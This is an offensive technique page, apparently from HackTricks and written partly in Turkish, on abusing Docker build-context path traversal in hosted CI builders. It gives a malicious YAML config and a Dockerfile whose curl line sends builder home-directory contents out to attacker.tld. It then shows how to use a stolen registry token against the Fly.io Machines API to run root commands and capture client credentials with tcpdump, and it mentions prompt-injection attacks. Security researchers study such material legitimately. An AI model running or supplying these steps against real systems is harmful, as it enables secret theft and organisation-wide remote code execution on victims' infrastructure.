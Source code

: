 # Hosted Builders'da Docker Build Context'in Kötüye Kullanımı (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

If a CI/CD platform or hosted builder lets contributors specify the Docker build context path and Dockerfile path, you can often set the context to a parent directory (e.g., "..") and make host files part of the build context. Then, an attacker-controlled Dockerfile can COPY and exfiltrate secrets found in the builder user’s home (for example, ~/.docker/config.json). Stolen registry tokens may also work against the provider’s control-plane APIs, enabling org-wide RCE.

## Saldırı yüzeyi

Many hosted builder/registry services do roughly this when building user-submitted images:
- Read a repo-level config that includes:
- build context path (sent to the Docker daemon)
- Dockerfile path relative to that context
- Copy the indicated build context directory and the Dockerfile to the Docker daemon
- Build the image and run it as a hosted service

If the platform does not canonicalize and restrict the build context, a user can set it to a location outside the repository (path traversal), causing arbitrary host files readable by the build user to become part of the build context and available to COPY in the Dockerfile.

Practical constraints commonly observed:
- The Dockerfile must reside within the chosen context path and its path must be known ahead of time.
- The build user must have read access to files included in the context; special device files can break the copy.

## PoC: Path traversal via Docker build context

Example malicious server config declaring a Dockerfile within the parent directory context:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Notlar:
- ".." kullanımı genellikle builder kullanıcısının home dizinine (ör. /home/builder) çözülür; bu dizin genellikle hassas dosyalar içerir.
- Dockerfile'ınızı repo'nun dizin adı altında yerleştirin (ör. repo "test" → test/Dockerfile) böylece genişletilmiş üst bağlam içinde kalır.

## PoC: host context'i ingest ve exfiltrate etmek için Dockerfile
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
$HOME'den sıklıkla elde edilen hedefler:
- ~/.docker/config.json (registry auths/tokens)
- Diğer cloud/CLI önbellekleri ve yapılandırmaları (ör. ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Tip: Depoda bir .dockerignore olsa bile, zafiyetli platform tarafı context seçimi hangi dosyaların daemon'a gönderileceğini belirler. Eğer platform, seçilen yolu repo’nuzun .dockerignore dosyasını değerlendirmeden önce daemon'a kopyalarsa, host dosyaları yine de açığa çıkabilir.

## Cloud pivot with overprivileged tokens (example: Fly.io Machines API)

Bazı platformlar, hem container registry hem de control-plane API için kullanılabilen tek bir bearer token sağlar. Eğer bir registry token'ı exfiltrate ederseniz, sağlayıcının API'sine karşı deneyin.

Çalınan token (~/.docker/config.json) kullanılarak Fly.io Machines API'ye yapılabilecek örnek API çağrıları:

Bir org içindeki uygulamaları listele:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Bir uygulamanın herhangi bir makinesinde root olarak bir komut çalıştır:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Sonuç: organizasyon genelinde remote code execution — token yeterli ayrıcalıklara sahipse tüm barındırılan uygulamalarda.

## Ele geçirilmiş barındırılan servislerden gizli bilgilerin çalınması

Barındırılan sunucularda exec/RCE ile, istemci tarafından sağlanan gizli bilgileri (API keys, tokens) toplayabilir veya prompt-injection attacks düzenleyebilirsiniz. Örnek: tcpdump kurun ve gelen kimlik bilgilerini çıkarmak için port 8080'deki HTTP trafiğini yakalayın.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Yakalanan istekler genellikle istemci kimlik bilgilerini başlıklarda, gövdelerde veya sorgu parametrelerinde içerir.

## Referanslar

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
